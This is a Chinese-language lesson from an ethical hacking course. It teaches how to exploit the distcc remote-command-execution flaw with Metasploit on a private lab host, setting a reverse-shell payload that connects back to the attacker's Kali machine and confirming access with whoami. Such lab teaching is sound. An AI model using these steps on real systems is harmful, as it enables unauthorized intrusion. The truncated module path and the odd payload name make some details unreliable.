



🔥 Kali Linux 道德黑客与渗透测试：44：distcc 远程代码执行第二个漏洞利用

在本节课中，我们将学习如何利用第二个完全不同的漏洞，目的是巩固之前讲过的渗透测试工作流，并向你展示“搜索、配置、运行”这个基本模式可以广泛应用于不同的服务和漏洞类型。简单来说，不管目标是什么，只要掌握了这个固定套路，就可以在很多场景下重复使用。

基本渗透测试流程可以用下面这个公式来表示：

搜索 → 配置 → 运行

[两个换行]

我们回到了 msfconsole，上节课的第一个 VSFTP 会话仍然在后台安静运行，这时候不需要管它，直接继续操作即可。下一步我们要寻找新的攻击目标，操作方法非常简单，只需要在控制台中输入搜索命令，关键词是 distcc。

以下是执行搜索的命令：

```bash
search distcc
```

[两个换行]

那么 distcc 到底是什么呢？distcc 是一种最初设计用于在网络中多台机器之间分发编译工作的工具，简单说就是把编译任务分摊到好几台电脑上，为了让编译速度变快。但是旧版本中存在一个特定的、广为人知的配置错误，这个错误会导致完全未经身份验证的远程命令执行。

换句话说，只要有人能通过网络访问这个服务，就可以在目标机器上运行任意命令，而且完全不需要登录，这就是一个非常严重的安全隐患。

[两个换行]

现在让我们查看搜索结果，你应该能看到一个模块，大致格式是 exploit/unix/misc/distcc，后面跟着具体的模块名称。找到之后我们需要选择它，具体操作是输入 use 命令，完整路径如下：



```bash
use exploit/unix/misc/distcc
```

[两个换行]

选定模块后，我们要像上节课一样检查它的参数选项，输入 show options 命令。这时你会看到 RHOST 字段，需要填写我们的目标 IP 地址。不过请注意，这次你很可能还会看到一个已经预先填充了默认值的 PAYLOAD 字段，这与上次有所不同。

[两个换行]



为什么这次会出现负载字段呢？因为与我们之前的 VSFTP 漏洞利用不同，distcc 这个特定的漏洞本身不带内置 shell，它确实要求我们单独选择并交付一个负载。这正是我在本模块第一堂理论课中提到的区别：有些漏洞自带 shell，有些则需要你另外配置负载。

[两个换行]

现在让我们设置目标机器的 IP 地址，即 192.168.56.101，输入命令如下：

```bash
set RHOST 192.168.56.101
```

[两个换行]

接下来，我们要明确设置负载，这样你可以清楚地看到每一步操作，而不是单纯依赖默认值。输入命令如下：

```bash
set payload cmd/java/reverse
```

这里需要解释一下反向连接负载的意思。这个特定的负载告诉目标机器主动向外连接并连回我们，而不是我们主动连入目标。因为我们使用了反向负载，还需要告诉它连回哪里，也就是我们自己的 Kali 机器 IP 地址，即 192.168.56.102，输入命令如下：

```bash
set LHOST 192.168.56.102
```

[两个换行]

配置完成后，我们再次输入 show options 确认所有参数正确，此时 RHOST 指向我们的目标，LHOST 指向我们自己的机器，负载也已经明确设置。你可以看到屏幕上显示 RHOST 和 LHOST 分别对应正确的地址，一切就绪后就可以运行漏洞利用了。

[两个换行]

输入 run 并按回车，你可以观察漏洞利用正在执行，让我们等待片刻。

[两个换行]

你看，命令行会话 2 已经打开，这意味着在一个完全不同的服务上，利用完全不同的底层漏洞，获得了第二个 shell。为了确认我们真的拿到了控制权，我们像之前一样输入 whoami 命令。

以下是验证命令：

```bash
whoami
```

[两个换行]

取决于目标系统的配置，这里显示的用户可能比之前 root 级别的 VSFTPD shell 更加受限，权限更低。这其实是一个非常真实且有价值的观察：同一台机器上的不同漏洞，可能会授予截然不同的访问权限。这也是为什么彻底的专业评估不会在第一个成功漏洞利用后就停止，你需要继续绘制目标实际上暴露的一切。

[两个换行]

下节课，我们将把这两个活跃会话整合在一起，学习如何妥善管理并在多个同时运行的 shell 之间切换，就像真实渗透测试中面对多个暴露服务时经常需要的那样。

[两个换行]



本节课中，我们一起学习了如何利用 distcc 远程代码执行漏洞，完成了从搜索模块、配置目标与负载、运行漏洞利用到获取 shell 的完整流程，并理解了反向连接负载的作用以及不同漏洞可能带来不同权限的重要性。

